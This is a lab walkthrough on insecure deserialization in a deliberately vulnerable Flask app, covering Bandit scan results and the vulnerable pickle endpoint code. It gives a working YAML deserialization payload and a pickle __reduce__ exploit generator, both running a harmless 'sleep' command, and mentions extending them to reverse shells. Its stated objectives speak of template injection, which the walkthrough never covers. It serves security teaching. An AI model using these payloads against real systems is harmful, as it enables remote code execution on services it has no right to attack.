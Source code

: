 # Insecure deserialization

Serialization is the process of turning some object into a data format that can be restored later. People often serialize objects in order to save them to storage, or to send as part of communications. Deserialization is the reverse of that process -- taking data structured from some format, and rebuilding it into an object. Today, the most popular data format for serializing data is JSON. Before that, it was XML.


### Objective 

* Use template injection to read the flask "configurations" such as the secret for signing JWT tokens
* Use template injection to envoke a local function to leverage RCE

#### spoiler 1 - discovery

There are a lot of ways to do your reconnaissance when performing a penetration test.
However, in this context we have the source code available!

So why not take advanteage of that?

First lets try to run a bandit scan against the application source code!

Bandit is a tool designed to find common security issues in Python code. To do this Bandit processes each file, builds an AST from it, and runs appropriate plugins against the AST nodes. Once Bandit has finished scanning all the files it generates a report.

Installing Bandit is as easy as:

```
pip install bandit
# Or if you're working with a Python 3 project
pip3 install bandit
```

And to run we simply do:

```
bandit -r path/to/your/code
```

Now after running bandit from the results we can find 2 things that should spark out interest such as:

```
>> Issue: [B301:blacklist] Pickle and modules that wrap it can be unsafe when used to deserialize untrusted data, possible security issue.
   Severity: Medium   Confidence: High
   Location: target/project/controllers/About.py:15
   More Info: https://bandit.readthedocs.io/en/latest/blacklists/blacklist_calls.html#b301-pickle
14	        with open('../filename.pickle', 'rb') as handle:
15	            a = pickle.load(handle)
16	        return render_template("about/index.html", content = a)
```

and

```
>> Issue: [B506:yaml_load] Use of unsafe yaml load. Allows instantiation of arbitrary objects. Consider yaml.safe_load().
   Severity: Medium   Confidence: High
   Location: target/project/controllers/Information.py:16
   More Info: https://bandit.readthedocs.io/en/latest/plugins/b506_yaml_load.html
15	            yaml_file = base64.b64decode(input)
16	            content = yaml.load(yaml_file)
17	    except:
```

Now we can look into these files and start tracing them in the web application

#### Spoiler 2 - Discovery && exploitation YAML

When we first authenticate to the application and we start browsing it we find the following page:

```
http://0.0.0.0:8081/information/eWFtbDogVGhlIGluZm9ybWF0aW9uIHBhZ2UgaXMgc3RpbGwgdW5kZXIgY29uc3RydWNhdGlvbiwgdXBkYXRlcyBjb21taW5nIHNvb24h
```

As we can see this link has some base64 encoded string in it, so we decode it to see what it is.

```
Input: eWFtbDogVGhlIGluZm9ybWF0aW9uIHBhZ2UgaXMgc3RpbGwgdW5kZXIgY29uc3RydWNhdGlvbiwgdXBkYXRlcyBjb21taW5nIHNvb24h
Output: yaml: The information page is still under construcation, updates comming soon!
```

This ouput reflects what is being shown in the applications page.
This is a great indicator that there is a function that parses yaml and prints 
the contents on the screen.

Now, if we do some research on the internet we find that pythons yaml allows instantiation of arbitrary objects.
After some more research we can than finally construct the following payload.

```
yaml: !!python/object/apply:os.system ["sleep 10"]
```

with this payload we perform an system command which initiates a sleep command.
Now, if the server takes some time to get back to us we know our injection
was succesfull.

This attack could than ultimately be used to create reverse shell connections or
something similar!


#### Spoiler 3 - discovery && exploitation PICKLE

The Pickle exploit might be somewhat harder to discover.
It is more likely to discover these types of vulnerabilities when you can perform
a static/manual code review. 

the pickle vulnerability is located at:

```
http://0.0.0.0:8081/about
```

To be able to exploit this vulnerability we need to send our own serialized
object to the application to ultimately perform a code execution attack

To be able to craft a succesfull exploit we first have to determine how the object is deserialized.

```
@app.route("/about/sync", methods=['POST'])
def deserialization_pickle():
        with open("../pickle.hacker", "wb+") as file:
            att = request.form['data_obj']
            attack = bytes.fromhex(att)
            file.write(attack)
            file.close()
        with open('../pickle.hacker', 'rb') as handle:
            a = pickle.load(handle)
            print(attack)
            return render_template("about/index.html", content = a)
```

As we can see it is just a simple "pickle.load()"

Now we want to serialize our own class with our arbitrary code execution and convert that to 
hex since the class that deserializes the attack reads the bytes from hex.

The code that is ultimately responsible for generating the exploit code wil look something like:

```
import pickle
import os
import base64
import binascii 

class RunBinSh(object):
  def __reduce__(self):
    return (os.system,('sleep 5',))

print(binascii.hexlify(pickle.dumps(RunBinSh())))
```

if we run the output against the application we can determine by the effective response time
of the application if the code execution was successfull.
